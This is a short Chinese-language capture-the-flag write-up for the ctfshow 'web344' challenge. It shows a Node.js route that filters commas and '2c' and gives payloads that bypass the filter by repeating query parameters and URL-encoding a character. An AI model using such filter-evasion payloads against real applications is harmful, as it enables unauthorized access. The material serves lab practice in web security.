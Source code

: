 ### web344

```javascript
router.get('/', function(req, res, next) {
  res.type('html');
  var flag = 'flag_here';
  if(req.url.match(/8c|2c|\,/ig)){
  	res.end('where is flag :)');
  }
  var query = JSON.parse(req.query.query);
  if(query.name==='admin'&&query.password==='ctfshow'&&query.isVIP===true){
  	res.end(flag);
  }else{
  	res.end('where is flag. :)');
  }

});
```

`var query = JSON.parse(req.query.query)`获取一个query参数

payload

```
query={"name":"admin","password":"ctfshow","isVIP":true}
```

但是过滤了逗号

```
query={"name":"admin"&query="password":"ctfshow"&query="isVIP":true}
```

还过滤了2c，这里双引号的url编码是%22，和c字符组成了%22c，被过滤了，把c字符进行url编码

```
query={"name":"admin"&query="password":"%63tfshow"&query="isVIP":true}
```

